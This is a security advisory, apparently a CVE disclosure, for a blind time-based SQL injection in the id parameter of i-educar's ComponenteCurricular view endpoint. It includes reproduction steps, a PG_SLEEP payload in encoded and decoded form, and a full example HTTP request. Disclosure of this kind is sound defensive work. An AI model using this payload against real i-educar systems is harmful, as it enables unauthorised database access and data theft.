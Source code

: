 # SQL Injection (Blind Time-Based) Vulnerability in `id` Parameter on `module/ComponenteCurricular/view` Endpoint

### Summary

<p align="justify">A SQL Injection vulnerability was identified in the <code>/module/ComponenteCurricular/view</code> endpoint of the i-educar application, specifically in the <code>id</code> parameter. This vulnerability allows attackers to execute arbitrary SQL commands on the backend database, potentially compromising the confidentiality, integrity, and availability of application data.</p>

---

### Details

Vulnerable Endpoint: `/module/ComponenteCurricular/view`

Parameter: `id`

<p align="justify">The application fails to properly validate and sanitize user input in the <code>id</code> parameter. As a result, attackers can inject crafted SQL payloads that are executed directly by the database. This could allow database enumeration, data exfiltration, modification, or denial of service via time-based delays.</p>

---

### PoC

#### Step by Step:

<p align="justify">Access endpoint <code>/intranet/educar_componente_curricular_lst.php</code> and choose (click on) any register. For this example was choosen <code>"Ensino Religioso"</code> register which id = 8. In the vulnerable endpoint, the payload must be inserted after <code>id</code> number (e.g. “id=8<code>payload</code>”)</p>

![](/CVEs/images/SQLi14.png)

![](/CVEs/images/SQLi15.png)

##

#### Payload:

````html
%27%20AND%206606=(SELECT%206606%20FROM%20PG_SLEEP(5))%20AND%20%27QDaZ%27=%27QDaZ
````

#### Decoded Payload:

````html
' AND 6606=(SELECT 6606 FROM PG_SLEEP(5)) AND 'QDaZ'='QDaZ
````

<p align="justify"> This payload triggers a 5-second delay in the server response, demonstrating that the parameter is vulnerable to blind time-based SQL injection.</p>

##

#### Example Request:

````html
GET /module/ComponenteCurricular/view?id=8%27%20AND%206606=(SELECT%206606%20FROM%20PG_SLEEP(5))%20AND%20%27QDaZ%27=%27QDaZ HTTP/1.1
Host: localhost:8086
sec-ch-ua: "Not)A;Brand";v="8", "Chromium";v="138"
sec-ch-ua-mobile: ?0
sec-ch-ua-platform: "Linux"
Accept-Language: pt-BR,pt;q=0.9
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko)
Chrome/138.0.0.0 Safari/537.36
Accept:
text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;
q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: none
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Accept-Encoding: gzip, deflate, br
Cookie: i_educar_session=bnTu3HZ4Jk5a0JxRERNMd03ZAr1TUGvXZTDs9DdE
Connection: keep-alive
````
##

#### Normal Request:

![](/CVEs/images/SQLi16.png)

#### SQLi Request:

![](/CVEs/images/SQLi17.png)

<p align="justify">Observe the increased server response time, confirming that the injected SQL command was executed.</p>

---

### Impact

<p align="justify">
<ul>
  <li>Unauthorized data access: Reading sensitive information such as credentials, personal data, or configuration details</li>
  <li>Database enumeration: Extracting database schema, tables, and column details</li>
  <li>Data manipulation: Adding, modifying, or deleting database records.</li>
  <li>Denial of Service (DoS): Using time-based queries to impact system availability.</li>
  <li>Potential escalation to RCE: If combined with other vulnerabilities and specific database features.</li>
</ul>
</p>

---

### Finder

*Discovered with💜 by [Karina Gante](https://karinagante.github.io/).* 

[![LinkedIn](https://skillicons.dev/icons?i=linkedin&theme=dark)](https://www.linkedin.com/in/karina-gante/)
[![GitHub](https://skillicons.dev/icons?i=github&theme=dark)](https://www.github.com/KarinaGante/)
[![gmail](https://skillicons.dev/icons?i=gmail&theme=dark)](mailto:karina.g@aluno.ifsp.edu.br)
[![Instagram](https://skillicons.dev/icons?i=instagram&theme=dark)](https://www.instagram.com/karinovisk02/)

##

*Official Member of [CVE-Hunters](https://www.cvehunters.com/)🏹*